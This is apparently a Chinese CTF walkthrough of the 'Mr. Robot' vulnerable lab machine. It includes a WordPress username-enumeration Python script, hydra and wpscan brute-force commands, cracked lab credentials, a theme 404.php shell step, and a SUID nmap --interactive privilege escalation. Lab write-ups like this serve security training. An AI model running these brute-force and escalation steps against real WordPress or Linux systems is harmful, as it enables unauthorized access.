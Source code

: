 # mrRoBot

![image-20200617202409740](assets/mrRobot.assets/image-20200617202409740.png)

![image-20200617202634944](assets/mrRobot.assets/image-20200617202634944.png)

80

![image-20200617203152363](assets/mrRobot.assets/image-20200617203152363.png)



443

![image-20200617203214681](assets/mrRobot.assets/image-20200617203214681.png)





![image-20200617203329701](assets/mrRobot.assets/image-20200617203329701.png)

![image-20200617203436652](assets/mrRobot.assets/image-20200617203436652.png)

打开是个字典。剩下那个是key

![image-20200617203718625](assets/mrRobot.assets/image-20200617203718625.png)

![image-20200617203846811](assets/mrRobot.assets/image-20200617203846811.png)

![image-20200617204101932](assets/mrRobot.assets/image-20200617204101932.png)

![image-20200617204241641](assets/mrRobot.assets/image-20200617204241641.png)

![image-20200617204658472](assets/mrRobot.assets/image-20200617204658472.png)



![image-20200617210402372](assets/mrRobot.assets/image-20200617210402372.png)

```html
POST /wp-login.php HTTP/1.1
Host: 192.168.43.4
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.43.4/wp-login.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 96
Connection: close
Cookie: s_cc=true; s_fid=3049ECE10F0CB5E8-14747522386CD7B4; s_nr=1592440903180; s_sq=%5B%5BB%5D%5D; wordpress_test_cookie=WP+Cookie+check
Upgrade-Insecure-Requests: 1

log=ss&pwd=ddd&wp-submit=Log+In&redirect_to=http%3A%2F%2F192.168.43.4%2Fwp-admin%2F&testcookie=1
```



如果用两个字典同时暴力破解用户名和密码成本太高，参考到wordpress会回显用户名是否正确。可以写一个只暴力测试用户名的python脚本/

```bash
cat fsocity.dic > fsocity.txt
vim weblogin_username_force.py
```



```python
import requests

open_file = open('fsocity.txt', 'r')		
temp = open_file.read().splitlines()		#读字典
count = 0
for username in temp:
    payload = {'log': '{0}'.format(username), 'pwd': 'dummy'}
    headers = {'Content-Type' : 'application/x-www-form-urlencoded'}
    cookies = dict(wordpress_test_cookie='WP+Cookie+check')
    r = requests.post("http://192.168.43.4/wp-login.php", data=payload, headers=headers, cookies=cookies)		#构建包
    if "Invalid username" not in r.text:
        print username
```

![image-20200617211255118](assets/mrRobot.assets/image-20200617211255118.png)

所以用户名是Elliot

再用这个用户名去暴力密码

```bash
sudo hydra -l elliot -P fsocity.txt 192.168.43.4 -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'
```

也可以使用wpscan

```bash
wpscan --url http://192.168.43.4 -P fsocity.txt -U elliot --force
```

![image-20200618025547073](assets/mrRobot.assets/image-20200618025547073.png)

```bash
elliot:ER28-0652
```

![image-20200617214438033](assets/mrRobot.assets/image-20200617214438033.png)

老套路，改404

![image-20200617214725471](assets/mrRobot.assets/image-20200617214725471.png)

```bash
http://192.168.43.4/wp-content/themes/twentyfifteen/404.php
```

也可以读取任意不存在网页。也可以读404.php都可以获得shell

![image-20200617221145713](assets/mrRobot.assets/image-20200617221145713.png)



![image-20200617221935707](assets/mrRobot.assets/image-20200617221935707.png)



```bash
robot:c3fcd3d76192e4007dfb496cca67e13b
```

![image-20200617222051159](assets/mrRobot.assets/image-20200617222051159.png)

```bash
robot：abcdefghijklmnopqrstuvwxyz
```

![image-20200617223832076](assets/mrRobot.assets/image-20200617223832076.png)

```bash
find / -perm -4000 2>/dev/null
```

![image-20200617225339961](assets/mrRobot.assets/image-20200617225339961.png)

```
nmap --interactive
```

![image-20200617225715864](assets/mrRobot.assets/image-20200617225715864.png)